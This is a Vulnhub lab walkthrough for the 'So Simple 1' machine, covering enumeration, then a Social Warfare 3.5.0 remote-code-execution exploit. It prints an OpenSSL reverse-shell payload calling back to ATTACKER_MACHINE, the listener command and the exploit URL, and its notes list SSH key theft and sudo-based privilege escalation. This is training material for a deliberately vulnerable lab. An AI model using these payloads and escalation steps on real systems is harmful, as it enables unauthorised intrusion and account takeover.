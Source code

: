 # So Simple 1

---

Machine by [@roelvb79](https://twitter.com/roelvb79)

Vulnhub [link](https://www.vulnhub.com/entry/so-simple-1,515/)

Objectives:

  * 2 user flags
  * 1 root flag

---

## Network scan


  
1. Use nmap to scan the network

    We'll use an intense scan on the victim vm (192.168.56.111), we can see web and ssh services running, but no aparent vulnerabilities yet.

    ![victim machine nmap scan result](img/1-nmap.png)
   
<br>

2. Visit the website

    If we visit the website we can see that there is only a big red image with the words "SO SIMPLE":
   
    ![website](img/2-website.png)

    And the website code doesn't reveal anything that's useful:

    ![website origin code](img/3-website_origin.png)

<br>

3. Attempt an ssh login

   Attempting to login with ssh shows it only accepts key authentication, thus ruling out ssh brute force with common passwords, if we want a way in we'll need an alternative


<br>

4. We'll run drib

    As there is no vulnerability that we can see in plain sight, dirb, will show us what are some sub-directories, and we can see that wordpress is installed:
  
    ![dirb website results](img/5-dirb.png)

<br>

5. Use WPScan

   As we saw on the las step wordpress is installed, WPScan will show wordpress, plugins and themes versions, as well as vulnerabilities associated with them, for this we'll need an api key that we can get by creating a free account.

   And we'll run the command

   `sudo wpscan --api-token <API> --url http://192.168.56.111/wordpress/ -e`
   
   ![wpscan result](img/)

   After the scan we can see that Social Warfare is installed and on version 3.5.0 there is a vulnerability that wpscan recommends, we can also see users "max" and "admin".

<br>

6. Prepare the exploit

   We can see that Social Warfare 3.5.0 has a RCE [vulnerability](https://wpscan.com/vulnerability/7b412469-cc03-4899-b397-38580ced5618/). To exploit it we'll need a web server and a payload and a netcat listener to get a reverse shell.

    - Web server

       We need a web server to serve our payload, this will be apache as it comes pre-installed on kali, we only need to enable it:

       ![enable apache](img/)


    - Netcat
 
       We need a netcat instance to listen to our reverse shell and catch it, this will use openssl and you can find more info on the [swisskeyrepo](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#openssl) repository by [Swissky](https://github.com/swisskyrepo).
   
       The command to execute will be `ncat --ssl -vv -l -p 4242`.
       This will listen for any connection on port 4242.
      
       ![running netcat listener](img/)
 
    - Payload
      
       The payload also comes from the same repo and it will be placed on the file `/var/www/html/payload.txt` and contain the next code:
      
        ```<pre>system('mkfifo /tmp/s; /bin/bash -i < /tmp/s 2>&1 | openssl s_client -quiet -connect ATTACKER_MACHINE:4242 > /tmp/s; rm /tmp/s')</pre>```

       The "ATTACKER_MACHINE" needs to be changed to our kali machine, in my case 192.168.56.1.. and the port needs to match the netcat listener above.

<br>

7. Using the exploit

   To run the exploit we need to visit the next url on a web browser:

   `VICTIM_MACHINE/wordpress/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://ATTACK_MACHINE/exploit.txt`

   The "ATTACKER_MACHINE" needs to be changed to our kali machine, in my case 192.168.56.1.. and "VICTIM_MACHINE to our so simple:1 vm, in my case 192.168.56.111

   ![Exploit on web browser result](img/)
   
<br>

8. Get a user ssh key


---

---

# Ignore

10- navigate to the max user .ssh folder and get the id_rsa key, we will copy the contents and create a file on our attack machine, we'll call it "key", paste the private key into it, and chmod 600 said file.
11- add the private key with "ssh-add key"
12- ssh into the machine as max with "ssh max@192.168.56.111"
13- once in we can cat the file user.txt and get the first flag
14- using "sudo -l" we'll know what the user has acces to use as root without asking a password, this will return that the user can use /usr/sbin/service.
15- we will use "sudo -u steven /usr/sbin/service ../../bin/bash" this will change to the user steven with the permissions of max /usr/sbin/service and will make sure that we acces the user with /bin/bash as the interpreter.
16- repeat "sudo -l" for user steven, will return a "/opt/tools/server-health.sh" file (non existant), we'll create the folder tools and file server-health.sh. this file will contain: 
#!/bin/bash

bash
17- then we will "chmod +x /opt/tools/server-health.sh"
18- we can use "sudo -u root /opt/tools/server-health.sh" to get root access to the machine.
19- copy the root's ssh private key for direct root access to the machine, and get the flag from inside the root's home folder
WpScan
